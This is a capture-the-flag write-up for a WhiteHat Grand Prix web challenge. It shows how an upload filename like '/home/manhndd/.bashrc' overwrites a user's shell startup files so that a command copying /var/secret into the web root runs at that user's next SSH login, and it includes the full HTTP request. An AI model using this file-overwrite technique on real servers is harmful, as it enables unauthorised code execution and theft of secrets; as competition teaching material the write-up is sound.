


Web03
Description: manhndd is running a service file upload at web01.grandprix.whitehatvn.com, it is restored every 2 minutes. Every 1 minute after service starts, he ssh into server to check /var/secret. Can you get it?  
Note: Player shouldn't Dos web01, you can get source code and run in local  
http://web01.grandprix.whitehatvn.com/  
Solves: A lot 
Points: 100  
Team: OpenToAll  

--------------------------------------

This... was a frustrating challenge. It involves racing against every other team  
for control of a file. The short description is: we're presented with a python  
SimpleHTTPServer that also supports an upload and must win the race for control of .bashrc or .profile.  
  

You can upload any file with the key  
'file':



The description tells us that a user "manhndd" SSH's in every 2 minutes. When a user
connects over SSH, typically they're using bash as their shell and will load the
files ~/.profile and ~/.bashrc on connect. We are able to overwrite these two files by changing  
the filename of the upload:  

```http
POST /SimpleHTTPServerWithUpload.py HTTP/1.1
Host: web01.grandprix.whitehatvn.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://files.fm/
X-File-Upload: uploadingfiles
Content-Length: 228
Content-Type: multipart/form-data; boundary=---------------------------158661620315800
Origin: https://files.fm
Connection: close

-----------------------------158661620315800
Content-Disposition: form-data; name="file"; filename="/home/manhndd/.bashrc"
Content-Type: text/html
cp /var/secret | /opt/dogs

-----------------------------158661620315800
```



The issue is that every other team is going to be trying to stomp on these files.  
I put my requests into Burp Intruder and had it constantly stomp on ~/.profile  
and ~/.bashrc until the file /var/secret got copied into /opt (the root of the webserver).  
I don't have a copy of the flag anymore, but eventually a file named "dogs" appeared
in the index and the flag was WhiteHat{SHA1(file_contents)}
